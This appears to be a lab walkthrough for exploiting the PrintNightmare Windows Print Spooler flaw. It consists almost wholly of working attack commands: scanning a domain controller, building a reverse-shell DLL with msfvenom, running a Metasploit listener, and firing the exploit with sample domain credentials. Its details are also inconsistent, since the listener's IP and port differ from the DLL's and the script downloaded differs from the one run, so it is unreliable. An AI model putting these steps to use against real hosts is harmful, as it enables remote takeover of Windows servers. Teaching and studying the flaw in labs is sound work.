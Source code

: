 ## Scanning Vulnerable hosts with rpcdump.py

```powershell
# rpcdump.py @DC-IP | egrep 'MS-RPRN|MS-PAR'
$ rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
```

**_Expected Output :_**

```
Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```


![](https://i.imgur.com/GkOuslZ.png)


### Preparation in Kali

Open a terminal and enter the following commands. This will get an alternate package of impacket and will download the python script needed for this exploit

```powershell
$ cd /opt/
$ sudo pip3 uninstall impacket
$ git clone https://github.com/cube0x0/impacket
$ cd impacket
$ sudo python3 ./setup.py install
$ sudo wget https://github.com/ly4k/PrintNightmare/blob/main/printnightmare.py

```


![exploit for the PrintNightmare](https://i.imgur.com/jCILEM9.png)


Now we are going to create the DLL that we will be using to create a reverse shell. Type in the following command and change the IP to your kali machine IP and copy the dll to the tmp directory


```powershell
$ sudo msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=192.168.0.157 LPORT=7777 -o reverse.dll
```




Next we will start a listener with `msfconsole`. Type in the following commands

```powershell
$ msfconsole
msf6 > use multi/handler
msf6 > set PAYLOAD windows/x64/shell_reverse_tcp
msf6 > set LHOST 10.0.0.132
msf6 > set LPORT 443
msf6 > run
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-3.png)

## Exploiting the PrintNightmare

Navigate to the tmp directory as that is where we have our `.py` file. Type in the following command to start the exploit. Please do change the **IP** address to your lab environment. 
**Note :** the first **IP** is the **Domain Controller-IP** and the second **IP** is the kali machine

```
sudo python3 CVE-2021-1675.py marvel.local/fcastle:Password1@192.168.0.149 '\\192.168.0.157\smb\reverse.dll'
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-4-1024x876.png)

## Reference

- [CVE-2021-34527 – Security Update Guide – Microsoft – Windows Print Spooler Remote Code Execution Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [GitHub – cube0x0/CVE-2021-1675: C# and Impacket implementation of PrintNightmare CVE-2021-1675/CVE-2021-34527](https://github.com/cube0x0/CVE-2021-1675)